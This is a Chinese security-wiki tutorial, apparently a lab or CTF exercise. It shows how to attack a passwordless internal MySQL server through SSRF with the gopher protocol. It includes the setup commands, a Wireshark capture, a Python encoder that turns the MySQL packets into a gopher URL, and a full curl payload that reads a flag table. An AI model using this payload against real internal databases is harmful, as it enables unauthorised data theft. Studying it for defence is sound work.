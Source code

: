 #### gopher 攻击内网mysql

> MySQL有密码和无密码的认证方式不一样，无密码认证时直接发送TCP/IP数据包即可访问，有密码数据包中存在加盐加密。如果内网中的mysql数据库存在无密码的用户，可结合gopher协议进行攻击。

首先配置数据库，kali默认安装的为MariaDB，配置路径与mysql不同；

```bash
#进入mysql命令行，设置无密码：
SET PASSWORD FOR root@localhost=PASSWORD('');
#修改配置文件：
vim /etc/mysql/mariadb.conf.d/50-server.cnf，添加skip-grant-tables

```

在kali下打开wireshark，监听`any`网卡

执行命令

```bash
mysql -h127.0.0.1 -uroot -p#必须指定-h，否则流量不走网卡，无法抓取
select flag from ssrf.flag;
exit;

```

筛选出mysql数据包

![](images/security_wiki/15906396952069.jpg)


跟踪TCP流，选取request请求，并显示为原始数据

![](images/security_wiki/15906397023346.jpg)


编码为gopher协议格式

```python
#encoding:utf-8

def result(s):
    a=[s[i:i+2] for i in xrange(0,len(s),2)]#两两一组
    return "curl gopher://127.0.0.1:3306/_%" + "%".join(a)

if __name__ == '__main__':
    import sys
    s=sys.argv[1]
    print result(s)

```

得到payload

```bash
curl gopher://127.0.0.1:3306/_%ae%00%00%01%85%a6%3f%20%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%30%33%38%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%16%00%00%00%03%73%65%6c%65%63%74%2a%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%01%00%00%00%01 --output - > mysql.txt

```

使用strings命令读取mysql.txt，获得输出结果

```bash
strings mysql.txt

```

![](images/security_wiki/15906397186617.jpg)


